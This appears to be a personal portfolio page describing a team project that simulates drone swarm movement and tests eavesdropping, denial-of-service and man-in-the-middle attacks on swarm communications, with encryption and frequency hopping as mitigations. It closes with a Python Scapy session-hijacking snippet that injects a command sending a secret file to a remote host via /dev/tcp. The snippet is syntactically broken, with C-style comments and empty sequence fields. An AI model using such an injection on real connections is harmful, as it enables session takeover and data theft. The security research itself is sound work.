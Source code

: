 ```yaml
---
layout: project
type: project
image: https://imgur.com/a/wsEDQXB
title: "Unmanned Swarms"
date: 2024
published: true
labels:
  - Robotics
  - Simulation
  - C++
  - Python
  - Wireless Attacks
summary: "My team simulated and researched how drone swarm communications could be intercepted wirelessly."
---
```



My team and I developed a simulation of drone swarm movements using C++. We then conducted tests to explore methods for intercepting the communication between the drones, aiming to assess vulnerabilities in the system and potential defense strategies.

For the simulation, we needed to replicate the movement patterns of unmanned drones. Specifically, we implemented autonomous wall-following, a feature that enables a drone to navigate along a vertical surface, such as a wall, while maintaining a consistent distance. We achieved this by developing an algorithm that allows the drone to detect the proximity of the wall, adjust its trajectory, and follow the contour of the surface. In practical terms, this functionality is especially useful in environments like indoor spaces, tunnels, or urban areas where structures and boundaries are integral to navigation.

Our code incorporated the Gauss Markov mobility model, which adjusts to varying levels of randomness. In this model, speed and direction are derived from a Gaussian-distributed random variable. This approach is effective for simulating the movement of vehicles or drones that exhibit inertia, where future trajectories are influenced by their current state. The model operates within predefined physical boundaries, defined as a 2D box with specific X and Y limits. The mobility model updates the position of each drone at regular time intervals. A smoothing factor balances the randomness and the influence of the previous state in new state calculations. 

We experimented with different types of attacks on the drone swarm communication system with Python scripts. Passive attacks involved eavesdropping on wireless communications without altering data or affecting system operations, allowing us to quietly gather information. We also tested Denial of Service (DoS) attacks by flooding the network or specific devices with excessive traffic to disrupt or disable communication. Lastly, we explored Man-in-the-Middle (MitM) attacks, where communication between two parties was intercepted and potentially altered without their knowledge. 

These experiments helped us assess the vulnerabilities of unmanned drone swarm communication systems. To mitigate these attacks, we implemented several solutions, including strong encryption protocols to secure data transmitted over the wireless network, ensuring confidentiality and integrity. Additionally, we employed Frequency Hopping Spread Spectrum (FHSS), a technique that randomly switches communication frequencies, making it significantly more difficult for attackers to jam or intercept signals, thereby enhancing the resilience of the system.

Here is some code that illustrates how we hijacked the wireless communication:

```py
print("SENDING SESSION HIJACKING PACKET.........")
 IPLayer= IP(src="10.0.2.5", dst="10.0.2.6")                   //set IPS
 TCPLayer= TCP(sport=' ' , dport=23, flags="A",                //set Ports and Flag
 seq=' ', ack=' ')                                             //set sequence and acknowlege
 Data = "\r cat /home/seed/secret > /dev/tcp/10.9.0.1/9090\r"  //set malicious packet
 pkt = IPLayer/TCPLayer/Data                                   //set packet type
 ls(pkt)
 send(pkt,verbose=0) 
```
